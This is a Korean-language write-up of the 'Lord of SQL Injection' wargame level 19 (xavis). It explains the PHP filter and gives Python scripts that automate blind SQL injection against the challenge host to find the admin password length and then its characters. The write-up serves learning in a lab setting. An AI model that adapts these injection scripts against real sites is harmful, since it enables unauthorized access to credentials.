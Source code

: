 ## Lord of SQL Injection No. 19 - xavis
## 문제 출제 의도
1. UNICODE의 이해 여부 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
    highlight_file(__FILE__); 
?>
~~~
+ 소스 코드 분석
    + 금지 문자열, 문자
        - Get 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        - Get 방식으로 받은 pw값에 'regex','like'중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    + 문제 풀이 조건
        - 문제 풀이에 성공하는 GET방식으로 pw 값과 실제 id='admin'인 레코드의 pw 가 일치하고 그 값이 0이 아닐경우이다.
## 문제 해결
+ 필요 함수
    - ord
        + ord는 문자의 아스키 코드값을 리턴하는 함수이다
        + (※ ord 함수는 chr 함수와 반대이다.)
        ~~~
        >>> ord('a')
        97
        >>> ord('0')
        48
        ~~~
    - hex
        + hex(x)는 정수값을 입력받아 16진수(hexadecimal)로 변환하여 리턴하는 함수이다.
        ~~~
        >>> hex(234)
        '0xea'
        >>> hex(3)
        '0x3'
        ~~~
+ pw 길이
    - 지금까지와는 다르게 pw가 8이 아님으로 pw 길이를 알아내야 한다.
    - 이는 다음과 같은 코드를 작성하면 쉽게 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    i=1

    while i:
    url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
    data = "' or id='admin' and length(pw)={}-- -".format(i)
    print (data)
    data = quote(data)

    re = urllib.request.Request(url + data)
    re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
    re.add_header("Cookie", "PHPSESSID=vt2ho6kvcu0hjgehmdmuj37qd1")
    res = urllib.request.urlopen(re)

    if  str(res.read()).find("Hello admin") != -1:
            print(i)
            break
    i+=1
    ~~~
    - 이는 결과적으로 40을 출력함으로 pw 의 길이는 40인것을 알 수 있다.

+ pw 값
    - pw길이만 다른 것을 빼면 지금까지와 별 다를 것이 없는 Blind SQL Injection 이라 할 수 있다.
    - 그러나 코드를 작성하여 풀어도 길이만 일치할 뿐 아무 값도 얻어내지 못한다는 사실을 알 수 있다.
    - 따라서 탐색 범위를 확장하여 다음과 같은 코드를 만들어 해결한다
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    hexcode = "0x"

    for i in range(1,41):
        for j in range(32, 1000):
            url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="#고정된 부분
            data = "' or id='admin' and ord(substr(pw, {}, 1))='{}'#".format(str(i), str(j))
            print(data)
            data = quote(data)

            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

            response = urllib.request.urlopen(re)

            if str(response.read()).find("Hello admin") != -1:
                key += chr(j) #찾은 문자를 추가함
                hexcode += hex(j)[2:] #0x를 잘라주기 위해 문자열을 슬라이스 했다.
                print('key : ' + key)
                print('hex : ' + hexcode)
                break
    print(key)
    ~~~
    - 이는 결과적으로 ¸ùÅ°ÆÐÄ¡¤»을 출력하는데 10자리 이후에서는 아무것도 탐색되지 않는다.
    - 이를 GET 방식으로 입력하면 문제가 해결된다.
